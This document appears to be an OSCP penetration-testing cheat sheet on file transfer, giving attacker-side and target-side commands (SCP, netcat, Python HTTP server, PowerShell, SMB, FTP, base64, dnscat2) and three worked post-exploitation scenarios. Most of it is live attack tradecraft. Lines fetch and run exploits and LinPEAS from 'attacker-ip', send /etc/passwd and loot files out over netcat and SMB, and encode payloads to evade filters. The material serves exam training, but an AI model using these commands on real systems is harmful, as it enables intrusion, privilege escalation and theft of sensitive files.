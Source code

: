 ### **File Transfer Tools**  

#### **1. SCP (Secure Copy - Over SSH)**  
- Uses SSH for secure file transfers.  
- Example:  
  ```bash
  scp exploit.py user@target-ip:/tmp/
  ```

#### **2. Rsync (Fast File Synchronization)**
- Useful for transferring multiple or large files.  
- Example:  
  ```bash
  rsync -avz exploit.py user@target-ip:/tmp/
  ```

#### **3. Netcat (Simple and Fast Transfer)**
- **Send File:**  
  ```bash
  nc target-ip 4444 < exploit.sh
  ```
- **Receive File:**  
  ```bash
  nc -lvp 4444 > received_exploit.sh
  ```

#### **4. Python HTTP Server**
- Quick and easy method to host files.  
- **On attacker machine:**  
  ```bash
  python3 -m http.server 8080
  ```
- **On target machine:**  
  ```bash
  wget http://attacker-ip:8080/exploit.sh
  ```

---

### **Advanced & Stealthy File Transfer Methods**  

#### **5. Curl & Wget (Built-in Linux Tools)**
- **Download file:**  
  ```bash
  curl -O http://attacker-ip/file
  ```
  or  
  ```bash
  wget http://attacker-ip/file
  ```

#### **6. PowerShell (For Windows Targets)**
- **Download a file using PowerShell:**  
  ```powershell
  Invoke-WebRequest -Uri "http://attacker-ip/file" -OutFile "C:\Users\Public\loot.exe"
  ```

#### **7. SMB (For Windows File Transfers)**
- **On attacker machine (Kali, start SMB server):**  
  ```bash
  impacket-smbserver share $(pwd) -smb2support
  ```
- **On target machine (Windows, download file):**  
  ```powershell
  copy \\attacker-ip\share\exploit.exe C:\Users\Public\
  ```

#### **8. FTP (When SSH & SMB are unavailable)**
- **On attacker machine (Start FTP server)**  
  ```bash
  python3 -m pyftpdlib -p 21
  ```
- **On target machine (Connect to FTP & download file)**  
  ```bash
  ftp attacker-ip
  get exploit.sh
  ```

#### **9. Base64 Encoding (Evade Detection)**
- **Encode file:**  
  ```bash
  base64 exploit.bin > exploit.b64
  ```
- **Transfer via Netcat, SSH, or Email, then decode on target:**  
  ```bash
  base64 -d exploit.b64 > exploit.bin
  ```

#### **10. DNS Exfiltration (Stealth Transfer)**
- **Using `dnscat2` (for bypassing network filters)**  
  ```bash
  dnscat2 attacker-ip
  ```

---
### **OSCP Real-World File Transfer Scenario**  
**Objective:** Transfer an **exploit script** from your **attacker machine (Kali)** to a **compromised target (Windows/Linux)** and retrieve loot files.  

---

## **Scenario 1: Windows Target (PowerShell + SMB Transfer)**
### **Situation:**  
- You have **low-privilege access** on a Windows machine via a **reverse shell**.  
- You need to **upload a privilege escalation script** and **exfiltrate loot files**.  

### **Attack Workflow**
#### **Step 1: Set Up an SMB Share on Kali**  
Use Impacket's `smbserver.py` to host a share on your attacker machine:  
```bash
impacket-smbserver sharename $(pwd) -smb2support
```

#### **Step 2: On Windows (Download File via PowerShell)**
In your Windows shell, execute:  
```powershell
copy \\attacker-ip\sharename\priv_esc.exe C:\Users\Public\priv_esc.exe
```
Then run the exploit:  
```powershell
C:\Users\Public\priv_esc.exe
```

#### **Step 3: Exfiltrate Loot (Upload to Kali via SMB)**  
Copy files back to your attacker machine:  
```powershell
copy C:\Users\Public\loot.txt \\attacker-ip\sharename\loot.txt
```

---

## **Scenario 2: Linux Target (Netcat + Python HTTP Server)**
### **Situation:**  
- You have **a low-privilege shell** on a **Linux machine**.  
- You need to **transfer LinPEAS.sh for privilege escalation** and retrieve a sensitive file.  

### **Attack Workflow**
#### **Step 1: Host the File on Kali (Python HTTP Server)**
On your attacker machine (Kali):  
```bash
cd /tmp
python3 -m http.server 8080
```

#### **Step 2: On the Linux Target (Download LinPEAS)**
From the low-privilege shell:  
```bash
wget http://attacker-ip:8080/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

#### **Step 3: Exfiltrate Sensitive Files with Netcat**
On Kali (Listening for incoming file transfer):  
```bash
nc -lvp 4444 > loot.txt
```

On the compromised Linux machine (Sending the file):  
```bash
cat /etc/passwd | nc attacker-ip 4444
```

---

## **Scenario 3: Fully Restricted Environment (Base64 + Netcat)**
### **Situation:**  
- Your target **does not allow direct file downloads** (no `wget`, `curl`, `scp`).  
- **Solution:** Encode the file in **Base64**, transfer via Netcat, and decode on the target.  

### **Attack Workflow**
#### **Step 1: Encode the Exploit on Kali**
```bash
base64 exploit.sh > exploit.b64
```

#### **Step 2: Transfer with Netcat**
On Kali (Listening for transfer):  
```bash
nc -lvp 5555 < exploit.b64
```

On the target (Send file):  
```bash
nc attacker-ip 5555 > exploit.b64
```

#### **Step 3: Decode & Execute on Target**
```bash
base64 -d exploit.b64 > exploit.sh
chmod +x exploit.sh
./exploit.sh
```

---

## **Summary**
| **Scenario** | **Method Used** | **Target OS** | **Stealth Level** |
|-------------|----------------|--------------|----------------|
| Windows PrivEsc | SMB + PowerShell | Windows |  Low (Can be logged) |
| Linux PrivEsc | Python HTTP + Netcat | Linux |  Medium |
| Restricted Transfer | Base64 + Netcat | Linux/Windows |  High (Evades Filters) |

